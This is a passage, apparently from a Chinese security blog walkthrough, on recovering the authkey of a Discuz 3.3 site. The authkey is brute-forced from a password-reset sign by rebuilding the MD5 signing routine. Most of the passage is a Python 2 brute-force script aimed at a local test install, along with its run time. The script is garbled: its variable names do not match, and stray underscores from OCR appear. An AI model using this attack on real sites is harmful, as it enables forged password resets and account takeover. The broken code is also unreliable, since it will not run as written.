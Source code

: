 
继续跟进到`dsign`函数中：


![2020%2005%2013%2019%2022%2054.png](../post_images/d56cf38294052b748a2914fbdcd5e7fb.png)


发现`dsign`配合使用了authkey来生成sign值，那么我们接下来要做的就是模拟这个过程来获取找回密码处的`uid`,`id`,`sign`值来爆破authkey,下面是爆破脚本：


```python
_#coding: utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "xZhQzV"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	urlmd5 = hashlib.md5(uurl+authkey)
	return urlmd5.hexdigest()[:16]
def main():
	sign = "6e2b1a0bb563da89"
	strlist = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	slist = sorted(set(ranlist), key=ranlist.index)
	r__list = itertools.product(str__list, repeat=6)
	print "[!] start running...."
	stime = time.time()
	for j in rlist:
		for s in slist:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[] found used time: " + str(time.time() - stime)
				return "[] authkey found: " + authkey
print main()_

```


用上述脚本跑了大概2个小时，跑出了authkey。（脚本是单线程的，跑的有点慢，追求速度的同学可以将其改为多线程）


![2020%2005%2014%2012%2057%2016.png](../post_images/333990d477fe6af60493368b04e8af59.png)
